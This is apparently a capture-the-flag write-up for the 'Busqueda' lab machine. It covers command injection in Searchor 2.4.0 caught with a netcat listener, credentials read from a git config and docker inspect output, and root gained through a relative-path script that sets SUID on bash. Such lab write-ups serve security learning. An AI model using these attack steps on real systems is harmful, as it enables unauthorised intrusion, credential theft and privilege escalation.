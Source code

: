 ### IP
`10.10.11.208`

# Reconnaissance

### nmap

`nmap -sC -sV 10.10.11.208`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-18 21:12 EDT
Nmap scan report for 10.10.11.208
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can add `searcher.htb` to `/etc/hosts` to see the website

On the bottom of the website, it says "`Powered by Flask and Searchor 2.4.0`"
	It seems that `Searchor 2.4.0` is [vulnerable to command injection](https://security.snyk.io/package/pip/searchor/2.4.0)


# Exploitation


I found a [POC](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection) online


We can run start a listener with `nc -lvnp 9001` and run `./exploit.sh searcher.htb <tun0>` and we get a shell as `svc@busqueda`

Theres a user flag in `/home/svc`

# Privilege Escalation

In the home directory, we can find a `.gitconfig` file that gives us an email of `cody@searcher.htb`

In webroot (`/var/www/app/`), we also find a `.git` directory, which indicates that it is a git repository. 

Here, there's a `config` file:

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
``` 

This gives us a password for the `cody` user on the `gitea.searcher.htb` as `jh1usoih2bkjaspwe92`
	We can add this subdomain into `/etc/hosts` and we see a website for `gitea`, which is a git web service.
	From here, we can log in as the `cody` user and we can see that there is also an `administrator` user and we can see the repo for the webapp we initially were on


I checked `/etc/passwd` to see if there was a cody user, but there wasn't, so I tried the password for `sudo -l` and it works:

```
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We can now see that the `svc` user can execute a python script as root. We also can now ssh into the `svc` user for a more stable shell since we have its password.

We can't read the python script or any of the files in the scripts directory, but we can run the script to get its usage:

```
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

This allows us to see the running containers (with `docker-ps`) and also lets us run `docker inspect` (with `docker-inspect`)

One thing that I accidentally discovered was that the `full-checkup` option is probably trying to run `/opt/scripts/full-checkup.sh` using a relative path. 
	This is because running the python script from the wrong directory gives us the output `Something went wrong` but running it from `/opt/scripts` gives us output.
	This is what we end up exploiting to privesc, so I will explain the issue in more detail later. 

Running `docker-ps` provides some useful information by showing us which ports are exposed and showing the names of the images that the containers are based on.
	We can see a web service (gitea) and mysql

Running the python script with `docker-inspect` gives us the following usage:

```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

We have the docker container IDs from `docker-ps`, so now we just have to find out what the format means. I looked it up online and found [the docker reference for the inspect command](https://docs.docker.com/engine/reference/commandline/inspect/)


There are several useful outputs, but the most useful one was `{{json .Config}}`, which gets the entire docker config as json.
	Something I realized later is that we also could have just used `{{.Config}}`, which would have printed the config as well 

This config includes credentials to sensitive things like the mysql password, as shown below:


`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a6b33fb5a`
```json
{"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e`
```json
{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```


Here is some of the useful information we got:
```
MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF

MYSQL_USER=gitea
MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh
```


Based on this, I tried logging into the database from the machine but wasn't able to. I also tried using the credentials to log in to root, but that didn't work either.

However, if we test the `yuiu1hoiu4i5ho1uh` password with the `administrator` user on gitea, we get access.
	This allows us to read the contents of the files in `/opt/scripts`

The vulnerable part of the `system-checkup.py` script is shown below:

```python
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Note that the `full-checkup` command runs `./full-checkup.sh` as a relative, rather than absolute, path. This is something we guessed earlier, but this confirms it. 

This also shows why we were getting `Something went wrong` as a result. The directory we were running from didn't have the script in it. 

Thus, because we can run the python script as sudo and it will spawn a child process using `./full-checkup.sh`, we can just make our own `full-checkup.sh` script to privesc.

I used the following:

```bash
#!/bin/bash

chmod +s /bin/bash
````

From here, we can run `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` and we can notice that bash is now an suid binary.

We can then run bash with privileges using `bash -p` and we have a root shell.

There is a flag in `/root/root.txt`